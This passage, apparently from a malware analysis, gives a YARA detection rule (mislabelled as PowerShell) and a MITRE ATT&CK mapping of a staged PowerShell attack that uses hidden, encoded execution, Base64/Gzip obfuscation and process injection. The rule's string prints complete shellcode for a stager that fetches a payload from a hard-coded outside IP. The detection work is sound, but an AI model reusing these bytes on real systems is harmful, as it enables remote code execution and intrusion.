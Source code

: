 The condition is straightforward: if the binary pattern is present, it triggers a match.

```powershell
rule Detect_Shellcode
{
    meta:
        description = "Detects shellcode"
        author = "Mustafa Nafiz Durukan"
        date = "2023-06-19"

    strings:
        $shellcode = { FC E8 89 00 00 00 60 89 E5 31 D2 64 8B 52 30 8B 52 0C 8B 52 14 8B 72 28 0F B7 4A 26 31 FF 31 C0 AC 3C 61 7C 02 2C 20 C1 CF 0D 01 C7 E2 F0 52 57 8B 52 10 8B 42 3C 01 D0 8B 40 78 85 C0 74 4A 01 D0 50 8B 48 18 8B 58 20 01 D3 E3 3C 49 8B 34 8B 01 D6 31 FF 31 C0 AC C1 CF 0D 01 C7 38 E0 75 F4 03 7D F8 3B 7D 24 75 E2 58 8B 58 24 01 D3 66 8B 0C 4B 8B 58 1C 01 D3 8B 04 8B 01 D0 89 44 24 24 5B 5B 61 59 5A 51 FF E0 58 5F 5A 8B 12 EB 86 5D 68 6E 65 74 00 68 77 69 6E 69 54 68 4C 77 26 07 FF D5 31 FF 57 57 57 57 57 68 3A 56 79 A7 FF D5 E9 84 00 00 00 5B 31 C9 51 51 6A 03 51 51 68 50 00 00 00 53 50 68 57 89 9F C6 FF D5 EB 70 5B 31 D2 52 68 00 02 60 84 52 52 52 53 52 50 68 EB 55 2E 3B FF D5 89 C6 83 C3 50 31 FF 57 57 6A FF 53 56 68 2D 06 18 7B FF D5 85 C0 0F 84 C3 01 00 00 31 FF 85 F6 74 04 89 F9 EB 09 68 AA C5 E2 5D FF D5 89 C1 68 45 21 5E 31 FF D5 31 FF 57 6A 07 51 56 50 68 B7 57 E0 0B FF D5 BF 00 2F 00 00 39 C7 74 B7 31 FF E9 91 01 00 00 E9 C9 01 00 00 E8 8B FF FF FF 2F 56 41 5A 6B 00 AE 9D 5A CD E3 56 F8 DC F8 62 46 DD 3C 26 C1 20 83 8F 5A EC 3E 63 BE 0D 4D F6 DA 4E AA 5C 0D 67 3E B1 91 17 17 2A C1 BB DD 22 43 1B EE 84 B0 1A 9B 95 7B AC 63 9C 61 22 0D A9 91 DD 84 40 7E 80 0F 5A 59 17 89 23 7E 99 C4 00 55 73 65 72 2D 41 67 65 6E 74 3A 20 4D 6F 7A 69 6C 6C 61 2F 35 2E 30 20 28 57 69 6E 64 6F 77 73 20 4E 54 20 36 2E 31 3B 20 57 4F 57 36 34 3B 20 54 72 69 64 65 6E 74 2F 37 2E 30 3B 20 72 76 3A 31 31 2E 30 29 20 6C 69 6B 65 20 47 65 63 6B 6F 0D 0A 00 19 20 55 DE 06 88 C7 D8 09 21 58 BB 4E 97 F2 F2 22 C7 4D 2B F7 6D F1 4E E9 BD 14 A6 97 3C D3 8E D0 E3 19 71 89 21 A4 52 4C 70 A7 8D 0A 45 EC D9 F5 A6 D9 9F 50 6E 19 CC CE C6 38 D6 F7 97 6C B2 AA C3 93 FC B2 E4 A8 0E BD 7F 7C 38 B6 8A AB C7 6C 53 0F 64 AB B2 E0 2C 45 81 B9 4A D2 D5 CC 6C 69 67 85 35 95 7C 4D 29 53 43 53 A6 6C 9C 18 F5 76 B3 F1 B2 D3 4A BA 79 AF D7 DF 78 99 6A 79 73 D8 59 08 96 B2 BD 96 1B 89 0F 42 AE D0 B5 39 DE 30 0E 5C D1 97 62 E8 9B C8 81 F5 07 EE F8 98 D5 C6 49 85 F7 32 85 C9 FE 9A C8 55 D3 19 B2 A8 31 80 7F 7E 1C EA B7 9B 9F 4A 80 3C F6 5B 2A C9 5C CF 6C 51 CF 87 11 0D 3B 21 FC 18 2D F8 F7 65 EF 32 90 17 D5 15 28 95 0B 1D 26 0C F8 00 68 F0 B5 A2 56 FF D5 6A 40 68 00 10 00 00 68 00 00 40 00 57 68 58 A4 53 E5 FF D5 93 B9 00 00 00 00 01 D9 51 53 89 E7 57 68 00 20 00 00 53 56 68 12 96 89 E2 FF D5 85 C0 74 C6 8B 07 01 C3 85 C0 75 E5 58 C3 E8 A9 FD FF FF 34 36 2E 31 30 31 2E 31 34 31 2E 39 36 00 18 88 B5 8B }

    condition:
        $shellcode
}
```

## MITRE Map

MITRE ATT&CK is a globally-accessible knowledge base of adversary tactics and techniques based on real-world observations. In the report, several stages of the PowerShell malware execution were mapped to specific techniques in the MITRE ATT&CK framework. Here's a breakdown of the identified techniques and their purposes:

1. **Stage 1 - PowerShell Execution**:
    - Technique: T1059.001 - Command and Scripting Interpreter: PowerShell
    - Explanation: PowerShell is a powerful interactive command-line interface and scripting environment included in the Windows operating system. Adversaries can use PowerShell to perform a number of actions, including discovery of information and execution of code. The **`nop`**, **`w hidden`**, and **`enc`** flags are used in this script to set the policy, window style, and encoding format for the PowerShell session, respectively.
2. **Stage 2 - Data Encoding and Compression**:
    - Technique: T1132.001 - Data Encoding: Standard Encoding
    - Explanation: The adversary is using Base64 encoding to obfuscate the actual payload data, which can help evade signature-based detection mechanisms. Furthermore, they're using Gzip compression on the Base64-encoded data.
3. **Stage 3 - Process Injection and Code Execution**:
    - Techniques:
        - T1055 - Process Injection
        - T1059.005 - Command and Scripting Interpreter: Visual Basic